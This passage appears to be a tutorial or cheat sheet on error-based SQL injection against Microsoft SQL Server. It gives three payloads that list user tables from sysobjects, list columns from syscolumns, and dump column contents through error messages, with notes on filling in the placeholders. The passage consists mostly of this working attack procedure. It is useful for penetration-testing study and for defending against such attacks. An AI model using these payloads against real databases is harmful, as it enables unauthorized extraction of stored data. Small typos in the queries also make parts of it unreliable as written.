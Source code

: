 * The tables into a given database

To enumerate all tables in a database, we can use the following payload:

```text
9999 or 1 in (SELECT TOP 1 CAST(name as varchar (4096)) FROM <database name>..sysobjects WHERE xtype='U' and name NOT IN (<known table list>)); --
```
	- `xtype means='U'` means we only want user-defined tables
	- `name NOT IN ('<know table list>')` name is a column of the sysobjects table. Everytime we find a new table we will append it to the NOT IN list. This is needed because the error display only the first table name.


* The columns of a given table

After retrieving the tables, we can retrieve the columns using the following payload:

```text
9999 or 1 in (SELECT TOP 1 CAST (<db name>..syscolumns.name as varchar (4096)) FROM <db name>..syscolumns,<db name>..sysobjects WHERE <db name>..syscolumns.id=<db name>..sysobjects.id AND <dbname>. .sysobjects.name=<table name> AND <db name>..syscolumns.name NOT IN (<known column list>)); --
```
	- `<db name>` is the name of database we're working on
	- `<table name>` is the table which we're trying to find the columns
	- `<known column list>` list of columns we already discovered


Finally, to dump the database, we can use the following query:

```text
9999 or 1 in (SELECT TOP 1 CAST (<column name> as varchar (4096) ) FROM <db name>..<table name> WHERE <column name> NOT IN (<retrieved data list>)); -- -
```
